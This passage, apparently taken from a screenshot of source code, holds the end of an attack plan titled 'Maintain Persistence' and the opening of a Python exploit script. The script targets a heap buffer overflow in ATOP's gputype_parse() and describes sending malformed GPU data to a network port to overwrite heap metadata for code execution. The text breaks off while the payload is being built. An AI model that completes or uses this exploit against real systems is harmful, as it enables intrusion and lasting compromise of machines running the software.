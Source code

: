 PHASE 4: Maintain Persistence
- Target: Service disruption capabilities
- Method: Leverage reconnection loop for continued access
- Outcome: Sustained system compromise


gputype_overflow_exploit
[16:48:03]
#!/usr/bin/env python3
"""
ATOP gputype_parse() Heap Buffer Overflow Exploit
Target: gpucom.c gputype_parse() function
CWE-122, CWE-805 | CVSS 9.5/10

Vulnerability Analysis:
- No bounds checking on bp, tp, cp pointer increments
- No validation that field count matches numgpus
- Infinite loop potential if no proper delimiters found

Exploitation Strategy:
1. Send malformed GPU data with excessive field count
2. Trigger heap buffer overflow during parsing
3. Overwrite heap metadata for code execution
"""

import socket
import struct
import sys
import time

class GPUTypeOverflowExploit:
    def __init__(self, target_host="127.0.0.1", target_port=4321):
        self.target_host = target_host
        self.target_port = target_port
        self.sock = None
        
    def create_malformed_gpu_data(self):
        """
        Create malformed GPU statistics data to trigger buffer overflow
        Based on analysis: gputype_parse() lacks bounds checking
        """
        # GPU statistics format expected by gputype_parse()
        # Normal format: "gpu_type:field1:field2:field3..."
        
        # Craft payload to overflow heap buffer
        gpu_type = "NVIDIA_RTX_4090"  # Valid GPU type
        
        # Create excessive number of fields to overflow buffer
        # Each field will increment pointers without bounds checking
        overflow_fields = []
        